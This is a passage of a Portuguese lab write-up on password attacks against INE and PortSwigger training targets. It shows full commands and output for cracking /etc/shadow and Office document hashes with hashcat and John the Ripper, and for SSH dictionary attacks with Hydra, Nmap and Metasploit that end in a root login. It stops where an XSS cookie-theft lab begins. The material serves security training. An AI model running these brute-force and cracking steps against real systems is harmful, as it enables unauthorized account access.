

<div class="page"/>

# **Password Attack Part 2 | Sonael de A. Angelos Neto**

- ### **O que são Hashs?**
  
  Hashes são valores criptográficos gerados a partir de uma string de entrada (como uma senha) usando uma função de hash. A função de hash gera um valor único de tamanho fixo para cada entrada, o que é conhecido como "digest" ou "hash". Esse valor é usado para verificar a integridade dos dados, autenticar usuários ou proteger senhas armazenadas.

  Os hashes são uma forma eficaz de proteger dados sensíveis, pois é computacionalmente difícil (se não impossível) de reverter o processo de hash para descobrir a entrada original. Além disso, mesmo uma pequena alteração na entrada resultará em um hash completamente diferente, o que torna difícil para os atacantes manipular os dados protegidos.

  Exemplos de funções de hash incluem o SHA-256, MD5 e SHA-1.

- ### **Brute Force**
  
   É um método de tentativa e erro usado para adivinhar senhas ou chaves criptográficas. O atacante tenta todas as combinações possíveis de caracteres até encontrar a senha correta. Este tipo de ataque é muito lento e geralmente é usado como último recurso quando outros métodos falham.

- ### **Ataque de dicionário**
  
  É um tipo de ataque de força bruta que usa uma lista pré-compilada de palavras (um dicionário) para tentar adivinhar a senha. Em vez de tentar todas as combinações possíveis de caracteres, o atacante tenta combinações de palavras presentes no dicionário. Este tipo de ataque é mais rápido do que a força bruta pura, mas ainda pode ser muito lento, dependendo do tamanho do dicionário e da complexidade da senha.

Os ataques de força bruta e de dicionário podem ser mitigados usando senhas seguras e fortes, bem como técnicas de proteção de senha, como salting e hashing. Além disso, é importante manter os sistemas de segurança atualizados e monitorar constantemente as atividades de rede para detectar e prevenir ataques.

---

## **<center>Sumário</center>**

  Nesse documento, iremos utilizar de `"Password Attack"` para resolver os laboratórios da [Ine](https://ine.com/learning/areas/cyber-security) e da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  1. #### ***<a href="#1">Ine - Bruteforce and Password cracking Offline.</a>***
  2. #### ***<a href="#2">Ine - Bruteforce and Password cracking Live.</a>***
  3. #### ***<a href="#3">Portswigger - Offline password cracking.</a>***

<div class="page"/>

### **Complementos:**

   4. #### ***<a href="#4">Mitigação.</a>***
   5. #### ***<a href="#5">Dificuldades.</a>***
   6. #### ***<a href="#6">Conclusão.</a>***
   7. #### ***<a href="#7">Referências.</a>***
   8. #### ***<a href="#8">Links p/ Laboratórios.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

- #### [John the Ripper](https://www.openwall.com/john/) :
    - Utilizaremos o `John the Ripper` para realizar ataques de dicionário e força bruta.

- #### [Hashcat](https://hashcat.net/hashcat/) :
    - Utilizaremos o `Hashcat` para realizar ataques de dicionário e força bruta.

- #### [Nmap](https://nmap.org/) :
    - Utilizaremos o `Nmap` para realizar o scan de portas, descobrir os serviços que estão rodando e para realizar ataques de dicionário e força bruta.

- #### [Hydra](https://sectools.org/tool/hydra/):
    - Utilizaremos o `Hydra` para realizar ataques de dicionário e força bruta.

- #### [Metasloit](https://www.metasploit.com/)
    - Utilizaremos o `Metasloit` para realizar ataques de dicionário e força bruta.

---

<div class="page"/>

## **<a id="1"> • Ine - Bruteforce and Password cracking Offline.</a>**

Neste laboratório aprenderemos a iniciar ataques de dicionário em hashes de senha do Linux e senhas de um arquivo de documento protegido do Microsoft Office (.docx).

Ao iniciar o laboratório iremos abrir o terminal e executar o seguinte comando:

```bash
root@INE:~# cat /etc/shadow
root:$6$iF3IRYx/LG3fxScL$spZt1Ltgnu4zyhnD2nYDZ9FSSKKcV0fRwnA3JNIGveciJQTWkPgv3qhE.URwgSakGvrJFNdHrfwYc9JLEZiGF/:18604:0:99999:7:::
daemon:*:19002:0:99999:7:::
bin:*:19002:0:99999:7:::
sys:*:19002:0:99999:7:::
sync:*:19002:0:99999:7:::
games:*:19002:0:99999:7:::
man:*:19002:0:99999:7:::
lp:*:19002:0:99999:7:::
mail:*:19002:0:99999:7:::
news:*:19002:0:99999:7:::
uucp:*:19002:0:99999:7:::
proxy:*:19002:0:99999:7:::
www-data:*:19002:0:99999:7:::
backup:*:19002:0:99999:7:::
list:*:19002:0:99999:7:::
irc:*:19002:0:99999:7:::
gnats:*:19002:0:99999:7:::
nobody:*:19002:0:99999:7:::
_apt:*:19002:0:99999:7:::
systemd-network:*:19004:0:99999:7:::
systemd-resolve:*:19004:0:99999:7:::
systemd-timesync:*:19004:0:99999:7:::
messagebus:*:19004:0:99999:7:::
rtkit:*:19004:0:99999:7:::
xrdp:!:19004:0:99999:7:::
usbmux:*:19004:0:99999:7:::
avahi:*:19004:0:99999:7:::
pulse:*:19004:0:99999:7:::
sddm:*:19004:0:99999:7:::
geoclue:*:19004:0:99999:7:::
tomcat:!:19004:0:99999:7:::
mysql:!:19004:0:99999:7:::
stunnel4:!:19004:0:99999:7:::
_rpc:*:19004:0:99999:7:::
dnsmasq:*:19004:0:99999:7:::
sslh:!:19004:0:99999:7:::
ntp:*:19004:0:99999:7:::
arpwatch:!:19004:0:99999:7:::
Debian-exim:!:19004:0:99999:7:::
debian-tor:*:19004:0:99999:7:::
redsocks:!:19004:0:99999:7:::
rwhod:*:19004:0:99999:7:::
freerad:*:19004:0:99999:7:::
iodine:*:19004:0:99999:7:::
tcpdump:*:19004:0:99999:7:::
miredo:*:19004:0:99999:7:::
statd:*:19004:0:99999:7:::
redis:*:19004:0:99999:7:::
postgres:*:19004:0:99999:7:::
inetsim:*:19004:0:99999:7:::
sshd:*:19004:0:99999:7:::
Debian-snmp:!:19004:0:99999:7:::
_gvm:*:19004:0:99999:7:::
saned:*:19004:0:99999:7:::
king-phisher:*:19004:0:99999:7:::
_caldera:*:19004:0:99999:7:::
dradis:*:19004:0:99999:7:::
beef-xss:*:19004:0:99999:7:::
uuidd:*:19004:0:99999:7:::
memcache:!:19004:0:99999:7:::
arangodb:!:19004::::::
admin:$6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/:18945:0:99999:7:::/
```

Podemos ver que o usuário `admin` possui um hash de senha, então precisamos saber qual o algorítmo utilizado para criptografar a senha.

Para isso vamos checar o arquivo `/etc/login.defs` que contém as configurações de login do sistema.

```bash
root@INE:~# grep -A 18 ENCRYPT_METHOD /etc/login.defs
# This variable is deprecated. You should use ENCRYPT_METHOD.
#
#MD5_CRYPT_ENAB no

#
# If set to MD5 , MD5-based algorithm will be used for encrypting password
# If set to SHA256, SHA256-based algorithm will be used for encrypting password
# If set to SHA512, SHA512-based algorithm will be used for encrypting password
# If set to DES, DES-based algorithm will be used for encrypting password (default)
# Overrides the MD5_CRYPT_ENAB option
#
# Note: It is recommended to use a value consistent with
# the PAM modules configuration.
#
ENCRYPT_METHOD SHA512

#
# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
#
# Define the number of SHA rounds.
# With a lot of rounds, it is more difficult to brute forcing the password.
# But note also that it more CPU resources will be needed to authenticate
# users.
#
# If not specified, the libc will choose the default number of rounds (5000).
# The values must be inside the 1000-999999999 range.
# If only one of the MIN or MAX values is set, then this value will be used.
# If MIN > MAX, the highest value will be used.
#
# SHA_CRYPT_MIN_ROUNDS 5000
# SHA_CRYPT_MAX_ROUNDS 5000

################# OBSOLETED BY PAM ##############
#                                               #
# These options are now handled by PAM. Please  #
# edit the appropriate file in /etc/pam.d/ to   #
```

Através desse arquivo podemos ver que o algoritmo utilizado para criptografar a senha do usuário `admin` é o `SHA512`.

Precisamos então copiar o hash de senha do usuário `admin` e salvar em um arquivo chamado `admin.hash`. Para isso utilizar comando:

```bash
echo \$6\$2PjhBcvO4tMWKi5W\$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/ > admin.hash
```


### **• Utilizando o Hashcat**:

Agora vamos utilizar o hashcat para quebrar a senha do usuário `admin`. Vamos utilizar o modulo `-m 1800` do hashcat pois esse modulo refere-se a criptografia `sha512crypt $6$, SHA512 (Unix) 2` junto com o `-a 0` que refere-se ao ataque de força bruta.

```bash
root@INE:~/Desktop# hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD EPYC 7601 32-Core Processor, 47227/94518 MB (16384 MB allocatable), 48MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /root/Desktop/wordlists/1000000-password-seclists.txt
* Passwords.: 1000003
* Bytes.....: 8529147
* Keyspace..: 1000003
* Runtime...: 1 sec

$6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/:foxtrot
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9is...7Pa7O/
Time.Started.....: Fri Feb  3 14:23:19 2023 (4 secs)
Time.Estimated...: Fri Feb  3 14:23:23 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/root/Desktop/wordlists/1000000-password-seclists.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      542 H/s (20.16ms) @ Accel:512 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2048/1000003 (0.20%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 1536/1000003 (0.15%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: sampson -> ball

Started: Fri Feb  3 14:21:53 2023
Stopped: Fri Feb  3 14:23:25 2023
```

E através do comando acima conseguimos quebrar a senha do usuário `admin` que é `foxtrot`.

<div class="page"/>

### **• Utilizando o John The Ripper**:

Para quebrar a senha do usuário `admin` utilizando o John The Ripper e bem simples, basta utilizar o comando abaixo:

```bash
root@INE:~/Desktop# john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 48 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
foxtrot          (admin)     
password         (root)     
2g 0:00:00:18 DONE (2023-02-03 14:28) 0.1070g/s 328.7p/s 657.4c/s 657.4C/s 123456..786786
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Passando o arquivo `/etc/shadow` para o John The Ripper e utilizando a wordlist `1000000-password-seclists.txt` conseguimos quebrar a senha do usuário `admin` que é `foxtrot` e também a senha do usuário `root` que é `password`.

---


## **• Quebrando a senha de um arquivo Microsoft Word**:

O arquivos que iremos quebrar a senha é o `MS_Word_Document.docx` que está dentro da pasta `/root/Desktop/MS_Word_Document.docx`.

### **• Utilizando o John The Ripper**:

Primeiramente precisamos extrair as informações `crackáveis` do arquivo, e para isso vamos utilizar o script `office2john.py` que está dentro da pasta `/usr/share/john/`:

```bash
root@INE:~/Desktop# /usr/share/john/office2john.py MS_Word_Document.docx > hash

root@INE:~/Desktop# cat hash
MS_Word_Document.docx:$office$*2013*100000*256*16*ff2563844faca58a12fc42c5036f9cf8*ffaf52db903dbcb6ac2db4bab6d343ab*c237403ec97e5f68b7be3324a8633c9ff95e0bb44b1efcf798c70271a54336a2

```

<div class="page"/>

Agora vamos utilizar o John The Ripper para quebrar a senha do arquivo:

```bash
root@INE:~/Desktop# john --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 48 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
muenchen         (MS_Word_Document.docx)     
1g 0:00:00:11 DONE (2023-02-03 15:04) 0.09000g/s 34.56p/s 34.56c/s 34.56C/s 123456..alex
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Passando o arquivo `hash` para o John The Ripper e utilizando a wordlist `1000000-password-seclists.txt` conseguimos quebrar a senha do arquivo que é `muenchen`.


### **• Utilizando o hashcat**:

Para usar o hashcat para quebrar a senha do arquivo `MS_Word_Document.docx` precisamos alterar o arquivo `hash` para um formato que o hashcat entenda, e para isso basta excluir o `MS_Word_Document.docx:` e deixar apenas o hash:

```text
$office$*2013*100000*256*16*ff2563844faca58a12fc42c5036f9cf8*ffaf52db903dbcb6ac2db4bab6d343ab*c237403ec97e5f68b7be3324a8633c9ff95e0bb44b1efcf798c70271a54336a2
```

Agora vamos utilizar o hashcat para quebrar a senha do arquivo:

```bash
root@INE:~/Desktop# hashcat -a 0 -m 9600 --status hash /root/Desktop/wordlists/1000000-password-seclists.txt --force
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD EPYC 7601 32-Core Processor, 47227/94518 MB (16384 MB allocatable), 48MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
* Uses-64-Bit

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /root/Desktop/wordlists/1000000-password-seclists.txt
* Passwords.: 1000004
* Bytes.....: 8529156
* Keyspace..: 1000004
* Runtime...: 0 secs

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

Session..........: hashcat
Status...........: Running
Hash.Mode........: 9600 (MS Office 2013)
Hash.Target......: $office$*2013*100000*256*16*ff2563844faca58a12fc42c...4336a2
Time.Started.....: Fri Feb  3 15:10:19 2023, (7 secs)
Time.Estimated...: Fri Feb  3 20:41:57 2023, (5 hours, 31 mins)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/root/Desktop/wordlists/1000000-password-seclists.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       50 H/s (25.38ms) @ Accel:512 Loops:256 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests
Progress.........: 0/1000004 (0.00%)
Rejected.........: 0/0 (0.00%)
Restore.Point....: 0/1000004 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:60928-61184
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> marvin

$office$*2013*100000*256*16*ff2563844faca58a12fc42c5036f9cf8*ffaf52db903dbcb6ac2db4bab6d343ab*c237403ec97e5f68b7be3324a8633c9ff95e0bb44b1efcf798c70271a54336a2:muenchen
Session..........: hashcat                                
Status...........: Cracked
Hash.Mode........: 9600 (MS Office 2013)
Hash.Target......: $office$*2013*100000*256*16*ff2563844faca58a12fc42c...4336a2
Time.Started.....: Fri Feb  3 15:10:19 2023, (11 secs)
Time.Estimated...: Fri Feb  3 15:10:30 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/root/Desktop/wordlists/1000000-password-seclists.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       50 H/s (25.40ms) @ Accel:512 Loops:256 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 512/1000004 (0.05%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/1000004 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> marvin
Started: Fri Feb  3 15:09:25 2023
Stopped: Fri Feb  3 15:10:32 2023
```

O comando acima utiliza o modulo ´-m 9600´ que é o modulo referente a criptografia do MS Office 2013, o comando ´-a 0´ que é o modo de ataque que o hashcat irá utilizar, no caso o modo 0 é o modo de ataque por dicionário e o comando ´--status´ que é para mostrar o status do ataque.

E através do comando acima conseguimos quebrar a senha do arquivo `MS_Word_Document.docx` que é `muenchen`.

Com isso terminamos o laboratório.

---


## **<a id="2"> • Ine - Bruteforce and Password cracking Live.</a>**

Neste laboratório, iremos aprender a executar um ataque de dicionário no serviço SSH usando Hydra, script Nmap e Metasploit.

Ao entrar no laboratório, temos que verificar se a maquina alvo está ativa:

```bash
root@INE:~# ping demo.ine.local
PING demo.ine.local (192.34.159.3) 56(84) bytes of data.
64 bytes from demo.ine.local (192.34.159.3): icmp_seq=1 ttl=64 time=0.043 ms
64 bytes from demo.ine.local (192.34.159.3): icmp_seq=2 ttl=64 time=0.044 ms
64 bytes from demo.ine.local (192.34.159.3): icmp_seq=3 ttl=64 time=0.058 ms
^C
--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.043/0.048/0.058/0.006 ms
```

Agora vamos verificar as portas abertas na maquina alvo utilizando o Nmap:

```bash
root@INE:~# nmap -sV -sS demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-03 15:22 IST
Nmap scan report for demo.ine.local (192.34.159.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:22:9F:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

Onde o comando ´-sV´ é para verificar a versão do serviço e o comando ´-sS´ é para realizar um scan TCP SYN.

Atraves do comando acima, conseguimos ver que a porta 22 está aberta e que o serviço que está rodando nessa porta é o OpenSSH 7.2p2 Ubuntu 4ubuntu2.6.

### **• Utilizando o Hydra**:

Vamos utilizar o `Hydra` para fazer um ataque de força bruta em cima do usuário "student" utilizando a wordlist `rockyou.txt`:

primeiramente vamos descompactar o arquivo `rockyou.txt.gz` que está dentro da pasta `/usr/share/wordlists/` utilizando o seguite comando:

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Agora podemos usar o comando abaixo para fazer o ataque de força bruta:

```bash
root@INE:~# hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-03 15:31:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://demo.ine.local:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[22][ssh] host: demo.ine.local   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-03 15:32:38
```

Onde o comando ´-l´ é para informar o usuário que será utilizado no ataque, o comando ´-P´ é para informar a wordlist que será utilizada no ataque e o comando ´ssh´ é para informar o serviço que será utilizado no ataque.

Atraves do comando acima, conseguimos quebrar a senha do usuário "student" que é "friend".

### **• Utilizando Nmap Script**:

Vamos usar o script ssh-brute do Nmap para descobrir a senha do usuário "administrator" utilizando a lista de senhas `/usr/share/nmap/nselib/data/passwords.lst`

Este script usa arquivos de lista de nome de usuário e senha. Isso é útil quando o nome de usuário de destino não é conhecido pelo invasor. No entanto, neste caso, já conhecemos o nome de usuário, ou seja, "administrator". Assim, criaremos um novo arquivo contendo apenas este nome de usuário.

```bash
root@INE:~/Desktop# echo "administrator" > users
root@INE:~/Desktop# cat users 
administrator
```

Agora podemos executar o script ssh-brute do Nmap:

```bash
root@INE:~/Desktop# nmap -p 22 --script ssh-brute --script-args userdb=/root/Desktop/users demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-03 15:40 IST
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: administrator:
NSE: [ssh-brute] Trying username/password pair: administrator:123456
NSE: [ssh-brute] Trying username/password pair: administrator:12345
NSE: [ssh-brute] Trying username/password pair: administrator:123456789
NSE: [ssh-brute] Trying username/password pair: administrator:password
NSE: [ssh-brute] Trying username/password pair: administrator:iloveyou
NSE: [ssh-brute] Trying username/password pair: administrator:princess
NSE: [ssh-brute] Trying username/password pair: administrator:12345678
NSE: [ssh-brute] Trying username/password pair: administrator:1234567
NSE: [ssh-brute] Trying username/password pair: administrator:abc123
NSE: [ssh-brute] Trying username/password pair: administrator:nicole
NSE: [ssh-brute] Trying username/password pair: administrator:daniel
NSE: [ssh-brute] Trying username/password pair: administrator:monkey
NSE: [ssh-brute] Trying username/password pair: administrator:babygirl
NSE: [ssh-brute] Trying username/password pair: administrator:qwerty
NSE: [ssh-brute] Trying username/password pair: administrator:lovely
NSE: [ssh-brute] Trying username/password pair: administrator:654321
NSE: [ssh-brute] Trying username/password pair: administrator:michael
NSE: [ssh-brute] Trying username/password pair: administrator:jessica
NSE: [ssh-brute] Trying username/password pair: administrator:111111
NSE: [ssh-brute] Trying username/password pair: administrator:ashley
NSE: [ssh-brute] Trying username/password pair: administrator:000000
NSE: [ssh-brute] Trying username/password pair: administrator:iloveu
NSE: [ssh-brute] Trying username/password pair: administrator:michelle
NSE: [ssh-brute] Trying username/password pair: administrator:tigger
NSE: [ssh-brute] Trying username/password pair: administrator:sunshine
Nmap scan report for demo.ine.local (192.34.159.3)
Host is up (0.000030s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
MAC Address: 02:42:C0:22:9F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```

Onde `-p` é para informar a porta que será utilizada no ataque, `--script` é para informar o script que será utilizado no ataque, `--script-args` é para informar os argumentos que serão utilizados no ataque e `userdb` é para informar o arquivo que contém os usuários que serão utilizados no ataque.


### **• Utilizando Metasloit**:

Aqui vamos aprender a utilizar o modulo `auxiliary/scanner/ssh/ssh_login` do Metasploit para descobrir a senha do usuário "root".

primeiramente vamos iniciar o Metasploit utilizando a opção `-q` para que o Metasploit não mostre a mensagem de boas vindas:

```bash
root@INE:~/Desktop# msfconsole -q
msf6 >
```

Agora vamos utilizar o comando `use` para selecionar o modulo `auxiliary/scanner/ssh/ssh_login`:

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
```

vamos utilizar o comando `options` para listar as opções do modulo:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user,
                                                 user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usi
                                                ng-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```

Nós iremos alterar as opções `RHOSTS` para informar o IP do servidor que será atacado, `Userpass_file` para informar o arquivo que contém os usuários e senhas que serão utilizados no ataque, `STOP_ON_SUCCESS` para que o ataque pare quando a senha for descoberta e `VERBOSE` para que o Metasploit mostre todas as tentativas de ataque:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
USERPASS_FILE => /usr/share/wordlists/metasploit/root_userpass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
```
<div class="page"/>

Agora vamos utilizar o comando `exploit` para iniciar o ataque:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.34.159.3:22 - Starting bruteforce
[-] 192.34.159.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.34.159.3:22 - Failed: 'root:!root'
[-] 192.34.159.3:22 - Failed: 'root:Cisco'
[-] 192.34.159.3:22 - Failed: 'root:NeXT'
[-] 192.34.159.3:22 - Failed: 'root:QNX'
[-] 192.34.159.3:22 - Failed: 'root:admin'
[+] 192.34.159.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux demo.ine.local 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.34.159.2:40315 -> 192.34.159.3:22 ) at 2023-02-03 15:52:30 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Após do comando `exploit` nós temos a senha do usuário "root" que é "attack".

Agora podemos logar no servidor utilizando o usuário "root" e a senha "attack":

```bash
root@INE:~/Desktop# ssh root@demo.ine.local
The authenticity of host 'demo.ine.local (192.34.159.3)' can't be established.
ED25519 key fingerprint is SHA256:usoU91o26EhXVfBuwZIwlQtdpEw/EHXRp7NejBKASWA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'demo.ine.local' (ED25519) to the list of known hosts.
Ubuntu 16.04.5 LTS
root@demo.ine.local's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
SSH recon dictionary attack lab
root@demo:~# id
uid=0(root) gid=0(root) groups=0(root)
 
```

E assim nós conseguimos logar no servidor utilizando o usuário "root" e a senha "attack" e terminamos o laboratório.

---

<div class="page"/>

## **<a id="3"> • Portswigger - Offline password cracking.</a>**

Este laboratório armazena o hash de senha do usuário em um cookie e laboratório também contém uma vulnerabilidade XSS na funcionalidade de comentários. Para resolver o laboratório, temos que roubar o cookie de Carlos e use-o para descobrir sua senha. Em seguida, fazer login como carlos e exclua sua conta da página "Minha conta".

O cookie que temos que roubar é o `stay-logged-in` que é armazenado quando um usuário seleciona a opção "Lembrar-me" na página de login. Quando o usuário seleciona a opção "Lembrar-me", o cookie `stay-logged-in` é criado e armazenado no navegador do usuário.


Agora vamos analisar a requisição que contém o cookie `stay-logged-in` utilizando o Burp Suite:

```http
GET /my-account HTTP/1.1
